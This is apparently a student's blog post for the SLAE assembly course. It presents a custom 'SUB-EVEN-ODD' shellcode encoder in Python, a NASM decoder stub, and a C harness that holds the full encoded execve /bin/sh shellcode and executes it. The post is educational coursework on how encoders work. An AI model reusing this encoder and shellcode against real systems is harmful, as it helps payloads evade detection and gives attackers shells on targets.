


Encoding is the conversion of information into a particular form. We can encode shellcode, yet still execute it, by performing an operation on it then writing a small shellcode wrapper that reverses the operation and executes the decoded instructions.
In the SLAE course, assignment four is to author a shellcode encoder in any language, as well as a decoder in assembly. Students are then to encode an instructor-provided shellcode, put it in the decoder program, and execute the decoder shellcode in a testing harness to verify that the encoding and decoding process works.
I wanted to do something a little different for this assignment, so I made a pretty silly encoder. XOR, NOT, ROT13, etc. encoders are common and many were even demonstrated, with source code, in the SLAE course, so I did not want to write such an encoder. Instead I wrote a nonsensical encoder that first subtracts a selected value from each source byte, then performs a different mathematical operation on the byte depending on whether the resultant byte is even or odd. The mathematical operation flips the even-odd quality of the byte.
The decoder interprets whether each byte of the encoded shellcode is even or odd and reverses the operation appropriately. I shorthand this SUB-EVEN-ODD encoding.
The Python code is self-explanatory. Note that you could swap the constants in the algorithm with other constants and the algorithm would still work as long as the even-odd qualities are maintained. Also note that these values were selected to work with the provided shellcode. The algorithm contains subtraction, so to use it appropriately you would want to make sure the shellcode and constants are such that the encoded shellcode will not have null characters or negative numbers.
The shellcode being encoded here launches a shell by calling
execve and executing /bin/sh.
#!/usr/bin/python
shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")
encoded = ""
encoded2 = ""
print 'Encoded shellcode ...'
for x in bytearray(shellcode) :
y = x - 4
if (y % 2 == 0):
y = y + 3
else:
y = y - 1
encoded += '\\x'
encoded += '%02x' % y
encoded2 += '0x'
encoded2 += '%02x,' % y
print encoded
print encoded2
print 'Len: %d' % len(bytearray(shellcode))I then loaded this shell into a decoder. It is based on a decoder used during the course, although the decoding operation itself is different. The decoder is fairly simply; it uses JMP-CALL-POP to load a pointer to the encoded shellcode into ESI, then iterates 25 times, performing a decode operation on as many bytes of shellcode before eventually passing control to the decoded shellcode. There are comments explaining the decoding operation. Reading the Python code should also provide an easy understanding of what is required to decode the shellcode.
Of particular importance if one were to modify this shellcode is the hard-coded length of the shellcode and the string of encoded shellcode itself. Both are bolded in the code below.
; Filename: sub-even-odd-encoder.nasm
; Author: lastlistener
; Purpose: Demonstrate the use of shellcode encoded with SUB-EVEN-ODD encoding
global _start
section .text
_start:
jmp short call_shellcode
decoder:
pop esi
xor ecx, ecx
mov cl, 25
decode:
test byte [esi],0x1 ; odd if the lowest bit is set
jnz was_odd
add byte [esi],0x1 ; else it was even, so add the constant chosen for evens
jmp loop_end
was_odd:
sub byte [esi],0x3 ; subtract the constant chosen for odds
loop_end:
add byte [esi],0x4 ; always add this constant
inc esi
loop decode
jmp short EncodedShellcode
call_shellcode:
call decoder
EncodedShellcode: db 0x2c,0xbf,0x4f,0x67,0x2a,0x2a,0x6e,0x67,0x67,0x2a,0x61,0x64,0x6d,0x84,0xde,0x4f,0x84,0xe1,0x4e,0x84,0xdc,0xaf,0x06,0xc8,0x7f The decoder file can then be assembled and linked, and its shellcode extracted. The shellcode is then placed into the C testing harness, compiled and executed. It does decodes the shellcode and produces a shell, as it should:
The source of the C harness with the shellcode is as follows:
#include <stdio.h>
#include <string.h>
unsigned char code[] = \
"\xeb\x1a\x5e\x31\xc9\xb1\x19\xf6\x06\x01\x75\x05\x80\x06\x01\xeb\x03\x80\x2e\x03\x80\x06\x04\x46\xe2\xed\xeb\x05\xe8\xe1\xff\xff\xff\x2c\xbf\x4f\x67\x2a\x2a\x6e\x67\x67\x2a\x61\x64\x6d\x84\xde\x4f\x84\xe1\x4e\x84\xdc\xaf\x06\xc8\x7f";
main()
{
printf("Shellcode Length: %d\n", strlen(code));
int (*ret)() = (int(*)())code;
ret();
}So there you have it! A little shellcode encoder and decoder.
---
This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:
http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/
Student ID: SLAE - 1353